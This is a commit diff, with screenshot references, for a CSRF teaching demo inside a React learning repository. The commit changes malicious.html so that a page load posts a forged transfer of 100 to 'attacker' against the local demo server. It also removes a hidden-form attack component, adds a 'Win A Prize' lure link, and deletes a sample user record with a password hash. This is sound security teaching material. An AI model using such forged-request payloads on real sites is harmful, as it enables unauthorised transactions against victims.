

Before and after one commit to adico1/react-deep-dive, a React (Create React App) app in the folder Samples/Security/CSRF/Demo/: page /malicious in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (256-1280 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
integration fixes

```diff
--- a/Samples/Security/CSRF/Demo/db.json
+++ /dev/null
@@ -1,9 +0,0 @@
-{
-  "users": [
-    {
-      "email": "olivier@mail.com",
-      "password": "$2a$10$DMtnfafWJcSaNBqcZwqMqOKKxkwWrt5NynquQPafRJj3SK2bPO4Sa",
-      "id": 2
-    }
-  ]
-}
--- a/Samples/Security/CSRF/Demo/malicious/malicious.html
+++ b/Samples/Security/CSRF/Demo/malicious/malicious.html
@@ -8,7 +8,10 @@
 </head>
 <body>
 <script>
-  fetch('http://localhost:3001/transfer', {
+  const serverUrl = document.location.host.replace("3002", "3001");
+  console.log("serverUrl:", serverUrl);
+
+  fetch(`https://${serverUrl}/transfer`, {
     method: 'POST',
     headers: { 'Content-Type': 'application/json' },
     body: JSON.stringify({ amount: 100, to: 'attacker' }),
--- a/Samples/Security/CSRF/Demo/src/App.js
+++ b/Samples/Security/CSRF/Demo/src/App.js
@@ -1,10 +1,12 @@
 import React, { useState } from 'react';
 import { Link, Route, BrowserRouter as Router, Routes } from 'react-router-dom';
-import Malicious from './Malicious';
 import Profile from './Profile';
 
 function App() {
   const [balance, setBalance] = useState(1000);
+
+  const serverUrl = document.location.host.replace("3000", "3002");
+  console.log("serverUrl:", serverUrl);
 
   return (
     <Router>
@@ -16,14 +18,14 @@ function App() {
             </li>
             <div>
               <div className={'notification show'}>
-                <Link to="http://localhost:3002/malicious.html">Bank Account</Link>
+                <span>pushed by a malicious user thru email, SMS, notifications, XSS and alike.</span>
+                <Link to="{`http://${serverUrl}/malicious.html`}">Win A Prize</Link>
               </div>
             </div>
           </ul>
         </nav>
         <Routes>
           <Route path="/profile" element={<Profile balance={balance} setBalance={setBalance} />} />
-          <Route path="/malicious" element={<Malicious />} />
         </Routes>
       </div>
     </Router>
--- a/Samples/Security/CSRF/Demo/src/Malicious.js
+++ /dev/null
@@ -1,29 +0,0 @@
-import axios from 'axios';
-import React from 'react';
-
-const serverUrl = document.location.host.replace("3000", "3001");
-console.log("serverUrl:", serverUrl);
-function Malicious() {
-  const handleSubmit = async (e) => {
-    e.preventDefault();
-    await axios.post(`https://${serverUrl}/transfer`, {
-      amount: 100,
-      toAccount: 'attacker_account'
-    });
-  };
-
-  return (
-    <div className="malicious">
-      <h2>Click to Win a Prize!</h2>
-      <form onSubmit={handleSubmit} style={{ display: 'none' }}>
-        <input type="hidden" value="100" />
-        <button type="submit">Hidden Submit</button>
-      </form>
-      <script>
-        document.querySelector({'form'}).submit();
-      </script>
-    </div>
-  );
-}
-
-export default Malicious;
--- a/Samples/Security/CSRF/Demo/src/styles.css
+++ b/Samples/Security/CSRF/Demo/src/styles.css
@@ -19,7 +19,8 @@ nav li {
   margin: 0 10px;
 }
 
-.profile, .malicious {
+.profile,
+.malicious {
   text-align: center;
   margin-top: 50px;
 }
@@ -41,15 +42,19 @@ button:hover {
   position: fixed;
   top: 0;
   right: 0;
-  background-color: #4CAF50;
+  background-color: #4caf50;
   color: white;
   padding: 15px;
   border-radius: 0 0 0 10px;
-  box-shadow: 0 2px 10px rgba(0,0,0,0.1);
+  box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
   z-index: 1000;
   display: none; /* Hide by default */
+  width: 200px;
 }
-
+.notification span {
+  font-size: 8px;
+  display: block;
+}
 /* Show the notification when the .show class is added */
 .notification.show {
   display: block;
```
